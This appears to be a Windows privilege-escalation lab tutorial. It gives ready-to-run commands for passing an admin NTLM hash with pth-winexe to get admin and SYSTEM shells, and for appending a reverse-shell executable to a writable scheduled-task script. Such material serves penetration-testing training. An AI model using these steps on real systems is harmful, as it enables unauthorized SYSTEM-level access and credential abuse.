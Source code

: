 ## Passing the Hash
Windows accepts hashes instead of passwords to authenticate to a number of services.

We can use a modified version of winexe, pth-winexe to spawn a command prompt using the admin user’s hash.

### Privilege Escalation
1. Extract the admin hash from the SAM in the previous step.
2. Use the hash with pth-winexe to spawn a command prompt:
```
pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.1.22 cmd.exe
```
3. Use the hash with pth-winexe to spawn a SYSTEM level command prompt:
```
pth-winexe --system -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.1.22 cmd.exe
```

# Scheduled Tasks

Windows can be configured to run tasks at specific times, periodically (e.g. every 5 mins) or when triggered by some event (e.g. a user logon).
Tasks usually run with the privileges of the user who created them, however administrators can configure tasks to run as other users, including SYSTEM.

## Commands
Unfortunately, there is no easy method for enumerating custom tasks that belong to other users as a low privileged user account.
List all scheduled tasks your user can see:
```
schtasks /query /fo LIST /v
```
In PowerShell:
```
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```
Often we have to rely on other clues, such as finding a script or log file that indicates a scheduled task is being run.

### Privilege Escalation
1. In the C:\DevTools directory, there is a PowerShell script called “CleanUp.ps1”. View the script:
```
type C:\DevTools\CleanUp.ps1
```
2. This script seems like it is running every minute as the SYSTEM user. We can check our privileges on this script using accesschk.exe:
```
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```
3. Backup the script:
```
copy C:\DevTools\CleanUp.ps1 C:\Temp\
```
4. Start a listener on Kali.
5. Use echo to append a call to our reverse shell executable to the end of the script:
```
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```
6. Wait for the scheduled task to run (it should run every minute) to complete the exploit.
